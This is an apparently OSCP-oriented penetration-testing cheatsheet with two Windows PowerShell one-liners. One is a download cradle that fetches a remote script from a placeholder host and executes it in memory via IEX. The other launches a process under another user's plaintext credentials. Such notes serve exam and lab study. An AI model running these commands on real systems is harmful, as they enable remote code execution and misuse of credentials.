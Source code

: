 # oscp-cheatsheet

## Windows 
- Download string that loads a ps script functions into memory 
  - IEX(New-Object Net.Webclient).downloadString("http://0.0.0.0/script.ps1")
- Run cmd as other user
  - $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred
